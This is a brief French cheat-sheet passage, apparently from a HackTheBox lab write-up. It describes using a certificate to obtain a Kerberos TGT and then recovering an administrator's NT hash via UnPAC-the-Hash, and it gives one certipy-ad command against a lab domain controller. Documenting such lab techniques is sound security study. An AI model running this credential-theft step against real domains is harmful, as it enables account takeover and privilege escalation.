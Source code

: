 
> [!TIP]
> Obtenir un TGT grace à un certificat. Le TGT peut ensuite être utilisé pour UnPAC The Hash et récupérer le hash NT.

### Certipy-AD

> [!TIP]
> Certipy-AD réalise le UnPACTheHash automatiquement


```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.10.11.51
```

